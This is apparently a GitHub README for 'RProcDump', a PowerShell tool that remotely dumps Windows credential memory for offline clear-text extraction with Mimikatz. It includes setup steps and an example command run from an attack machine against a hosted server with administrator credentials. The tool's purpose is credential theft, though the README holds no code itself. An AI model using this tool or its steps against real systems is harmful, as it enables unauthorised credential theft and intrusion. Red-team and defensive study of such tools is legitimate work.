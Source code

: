 # RProcDump
Remote Windows credentials dump process automation. 
Can be used to dump Windows credentials remotely and later extract clear text with Mimikatz offline.

Help:
	Host all files in a webserver able to interpret PHP (apache2 on kali linux)
	Edit prameters in procdump.ps1 and run Rprocdump.ps1 with same parameters on attack machine:
	example:
	RProcdump -server http://127.0.0.1 -login administrator -pass password123

Need local privileges !!!

 Author: @ThebenyGreen
  - EyesOpenSecurity
